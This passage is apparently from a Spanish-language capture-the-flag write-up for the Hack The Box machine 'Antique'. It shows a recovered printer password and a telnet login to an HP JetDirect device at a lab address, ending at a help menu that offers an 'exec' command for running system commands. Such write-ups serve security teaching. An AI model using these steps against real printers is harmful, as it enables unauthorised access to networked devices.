 ```
P@ssw0rd@123!!123	"#%&'01345789BCIPQTWXaetuy	
```

### Telnet Enumeration

Vemos que hay una `impresora` llamada `HP JetDirect`, he buscado información acerca de cuales pueden ser las credenciales por defecto y he encontrado esto

![](/assets/img/Antique/image_2.png)

Nos `conectamos` a la `impresora`

```
# telnet 10.129.214.250 23   
Trying 10.129.214.250...
Connected to 10.129.214.250.
Escape character is '^]'.

HP JetDirect

Admin
Password: P@ssw0rd@123!!123

Please type "?" for HELP
> 
```

Vemos que podemos `ejecutar comandos`

```
Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
